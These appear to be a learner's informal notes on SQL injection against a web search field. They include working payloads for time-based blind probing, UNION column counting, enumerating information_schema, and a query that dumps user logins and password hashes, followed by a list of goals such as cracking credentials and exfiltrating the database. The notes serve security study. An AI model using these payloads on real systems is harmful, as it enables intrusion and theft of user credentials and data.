 ```slq
Next step is to figure out which DBMS is running this thing
thing' AND 1 = SLEEP(2);--
SELECT ? FROM ? WHERE ? LIKE '%thing' AND 1 = SLEEP(2);--%';
SLEEP() is a MySQL function
WAIT_FOR_DELAY() in SQLServer
these are blind sql injections - no auto
select from guessedtablename AND sleep(5)
if it comes back slowly then you know the table name exists

-- the number of columsn you get back in the results can tell you a little more
-- about the shape of the query e.g. if you get back three columns then you can
-- reasonably assume.
SELECT ?,?,? FROM ? WHERE ? LIKE '%somequery%';

So knowing I get back 3 columsn

SELECT ?,?,? FROM ? WHERE ? LIKE '%thing' UNION (SELECT 1,2,3 FROM dual);--%';

query: thing' UNION (SELECT 1,2,3 FROM dual);--
Aside: dual is a MySQL placeholder table name for testing - TODO: find out more
the output of the query above will tell you if you are on the right track

Aside: TODO: sql UNION

query: thing' UNION (SELECT table_name,table_schema,3 FROM information_schema.tables);--
the above query will append the list of tables in the db to the search query so you can see it on the page. From there you can find tables which seem interesting e.g. "users"



query: thing' UNION (SELECT COLUMN_NAME,2,3 FROM information_schema.columns WHERE TABLE_NAME = 'users');--
gets the shape of the users table so you know which columsn to select (we have to select less than 3)

query: thing' UNION (SELECT ulogin,uhash,utype FROM users);--
```

Second order SQLi - you put something in as a query and it gets used internally
as a query i.e. the sql gets escaped but it gets stored in the DB

Outcomes of successsful SQLi

categories

1. leverage for more access
    - you may be able to get the database credentials table
        - but will likely have to crack the passwords
            - TODO: how to do this for postgres
        - postgres creds are system creds by default - does this mean postgres
          doesn't have a "users" table?
2. exfiltrate data from the DB
    - you will have as much access as the webabb does to the database
    - can download all data from it
    - QUESTION: can SQLi access be used to get files from disk?
